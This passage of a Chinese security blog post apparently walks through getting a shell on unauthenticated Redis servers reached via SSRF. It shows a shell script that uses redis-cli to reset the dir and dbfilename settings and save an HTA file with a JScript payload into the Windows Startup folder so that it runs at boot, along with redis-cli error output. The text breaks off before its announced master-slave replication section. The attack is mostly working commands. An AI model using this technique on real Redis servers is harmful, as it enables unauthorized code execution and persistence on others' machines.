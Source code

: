 ```yaml
---
title: redis getshell实战
toc: true
categories: hack_middleware
tags: redis
abbrlink: eb21dee
date: 2020-07-24 22:02:00
---
```


ssrf会造成内网漫游，redis作为一种内网常用的中间件易受到攻击，本文主要实践了redis未授权下的攻击和利用，主要从写文件和主从复制RCE两个方面进行了阐述，期间遇到了一些坑，记录下来以飨众人。


## 写文件

写文件这个功能其实就是通过修改redis的dbfilename、dir配置项，通常来说掌控了写文件也就完成了rce的一半，这几种写文件来getshell的方式也是最有效最简单的。

### Windows

#### 开机自启动

在Windows 系统中有一个特殊的目录叫自启动目录，在这个目录下的文件在开机的时候都会被运行。

```text
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\redis_rce.hta
```

笔者把下面这段JScript执行`calc`命令的代码写到了该目录下，

```
<SCRIPT Language="JScript">new ActiveXObject("WScript.Shell").run("calc.exe");</SCRIPT>
```

我们在win测试机上搭建一个有ssrf的漏洞，利用gopher协议发送redis协议流量，我们在Linux上使用socat捕获redis协议流量，windows_startup.sh内容如下，

```shell
echo -e '\n\n<SCRIPT Language="JScript">new ActiveXObject("WScript.Shell").run("calc.exe");</SCRIPT>\n\n'|redis-cli -h $1 -p $2 -x set 1
redis-cli -h $1 -p $2 config set dir 'C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp'  # 指定本地数据库存放目录
redis-cli -h $1 -p $2 config set dbfilename redis_rce.hta  # 指定本地数据库文件名，默认值为dump.rdb
redis-cli -h $1 -p $2 save
redis-cli -h $1 -p $2 quit
```

`config set dir`后面的路径要加引号，否则会报错，加引号之后的报错可以忽略，因为Linux上面没有这个路径。

```shell
127.0.0.1:6379> config set dir C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp
(error) ERR Wrong number of arguments for CONFIG set
127.0.0.1:6379> config set dir 'C:/ProgramData/Microsoft/Windows/Start Menu/Programs/StartUp'
(error) ERR Changing directory: No such file or directory
```

在转换流量的时候要把下面的报错信息去掉，
